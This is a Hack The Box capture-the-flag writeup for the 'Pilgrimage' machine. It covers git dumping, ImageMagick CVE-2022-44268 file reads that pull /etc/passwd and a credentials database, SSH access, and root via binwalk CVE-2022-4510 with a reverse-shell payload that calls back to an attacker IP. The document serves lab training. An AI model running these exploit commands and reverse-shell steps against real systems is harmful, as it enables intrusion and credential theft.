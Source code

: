 ```yaml
---
description: Writeup Hack The Box Pilgrimage
---
```


# Pilgrimage

<figure><img src="../../.gitbook/assets/Pilgrimage.png" alt=""><figcaption><p>Pilgrimage owned</p></figcaption></figure>

### Port Scanning

First, we perform port scanning on the machine.

```bash
sudo nmap -sV -sT -sC -oA nmap_initial 10.10.11.219
```

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption><p>Port scanning</p></figcaption></figure>

We found .git directory on the website.

### Exploitation

After we found .git directory, we can dump the directory to get the source code using Git Dumper.

* [https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper)

```bash
python3 git_dumper.py http://pilgrimage.htb/.git/ Pilgrimage
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption><p>Dumping .git directory</p></figcaption></figure>

Now, move to **Pilgrimage**.&#x20;

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption><p>Pilgrimage source code.</p></figcaption></figure>

On index.php, we know that the application using the magick binary to process the image.

```php
exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption><p>Review source code</p></figcaption></figure>

The "magick" binary itself is ImageMagick, open-source software suite, used for editing and manipulating digital images.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>ImageMagick</p></figcaption></figure>

Search on Google, i found this exploit for **ImageMagick 7.1.0-49**.&#x20;

* https://www.exploit-db.com/exploits/51261
* https://github.com/voidz0r/CVE-2022-44268

After download the exploit, run this command to generate image with payload.

```bash
cargo run "/etc/passwd"
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption><p>CVE-2022-44268</p></figcaption></figure>

Now, upload the **image.png** to the target.

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption><p>Upload image with embeded payload</p></figcaption></figure>

Next, download the converted image, and analyze the converted image using this command:

```bash
identify -verbose 64a0e52437392.png
```

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption><p>Get hex value</p></figcaption></figure>

Convert the hex to text with xxd command.

```bash
echo "hex value here" | xxd -r -p
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption><p>Convert hex to text</p></figcaption></figure>

Back to index.php again, we found that the website using sqlite database, stored at /var/db/pilgrimage. We can read the db content using above exploit.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>sqlite</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption><p>Generate payload</p></figcaption></figure>

Again, upload the image to the website, and download the converted image. Next, get the hex value using xxd command.

Since the hex value is too long, you can save the command into a script.

```bash
nano db.sh
```

Inside db.sh, add this line:

```bash
#!/bin/bash
echo "hex value" | xxd -r -p
```

Then execute this command.

```bash
bash db.sh > asuka.sqlite
```

Now, we can use sqlite database client to read the database content.

```bash
➜  tmp sqlite3 asuka.sqlite 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL);
INSERT INTO users VALUES('emily','abigchonkyboi123');
CREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL);
COMMIT;
sqlite> 
```

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption><p>Found credentials</p></figcaption></figure>

Now, we can use the credentials to login into SSH.

### Get Low User

```bash
ssh emily@pilgrimage.htb
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption><p>Low User</p></figcaption></figure>

### Privilege Escalation

After obtaining low-level user access, we can now upload [**pspy**](../../linux/linux-post-exploitation.md#pspy) to the target machine and monitor Linux processes.

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Monitor UID 0 proccess</p></figcaption></figure>

We found a suspicious process with UID 0 (root) that could potentially be our pathway to gaining root access.

```bash
/bin/bash /usr/sbin/malwarescan.sh 
/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/
```

This is the content of malwarescan.sh

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done

```

In summary, this script provides a way to monitor the /var/www/pilgrimage.htb/shrunk/ directory for newly created files using **binwalk** and automatically deletes files that match specific criteria defined in the **blacklist** array.

After check the binwalk version, we know that this binwalk is vulnerable to CVE-2022-4510.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption><p>Binwalk vulnerable</p></figcaption></figure>

We can use this script:

* [https://github.com/electr0sm0g/CVE-2022-4510](https://github.com/electr0sm0g/CVE-2022-4510)

Before that, nn our local machine run nc to listen at port 1337.

Upload the script to target machine, and generate the reverse shell payload.

```bash
python3 RCE_Binwalk.py asuka.png 10.10.14.7 1337
```

Next, copy the generated image to **/var/www/pilgrimage.htb/shrunk/** directory.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption><p>Generate payload</p></figcaption></figure>

Using pspy, we can confirm that the binwalk execute our payload.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption><p>Back connect command</p></figcaption></figure>

Checking our netcat, we received a connection from the target with the root user.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption><p>Root</p></figcaption></figure>
